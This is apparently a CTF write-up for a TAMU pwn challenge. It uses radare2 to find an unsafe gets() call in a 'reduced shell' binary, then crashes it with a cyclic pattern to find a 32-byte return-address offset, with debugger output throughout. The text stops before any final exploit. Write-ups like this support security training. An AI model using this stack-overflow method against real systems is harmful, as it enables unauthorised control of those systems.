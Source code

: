 # write-up pwn4 (? p)

remote server found at `nc pwn.ctf.tamu.edu 4324`

----

The binary use NX security mechanism

````python
[0x08048490]> i~arch,canary,nx,pic,relro
arch     x86
canary   false
nx       true
pic      false
relro    partial
````

Function `sym.main ()` has a function call to `sym.reduced_shell ()`

````python
[0x080485ef]> pdf
            ;-- eip:
┌ (fcn) sym.reduced_shell 404
│   sym.reduced_shell ();
│           ; var int INPUT @ ebp-0x1c
│           ; CALL XREF from 0x080487a8 (main + 37)
...
│           0x08048632      83c410         esp += 0x10
│           0x08048635      83ec0c         esp -= 0xc
│           0x08048638      8d45e4         eax = [INPUT]
│           0x0804863b      50             push eax                    ; char *s
│           0x0804863c      e8cffdffff     sym.imp.gets ()             ; char*gets(char *s)
````

Function `sym.reduced_shell ()` contains a `sym.imp.gets ()` call, with `local_1ch` variable, renamed to `INPUT`

````python
[0x080485ef]> afvd
var local_1ch = 0xffe4111c  0x080487a5  .... (LOAD0) (/home/vagrant/ctf/tamu18/pwn4/pwn4) main program R X 'add esp, 0x10' 'pwn4'
````

````python
[0x080485ef]> afvn local_1ch INPUT
````

Created a pattern using `ragg2 -P 300 -r > stdin` and reopen debugger.

````python
[0xf77b7030]> dc
I am a reduced online shell
Your options are:
1. ls
2. cal
3. pwd
4. whoami
5. exit
Input> Unkown Command

child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41414c41 code=1 ret=0
````

````python
[0x41414c41]> wopO 0x41414c41
32
````

````python
[0x08048641]> dmi
0x08048000 /home/vagrant/ctf/tamu18/pwn4/pwn4
0xf754b000 /lib/i386-linux-gnu/libc-2.19.so
0xf7706000 /lib/i386-linux-gnu/ld-2.19.so
````

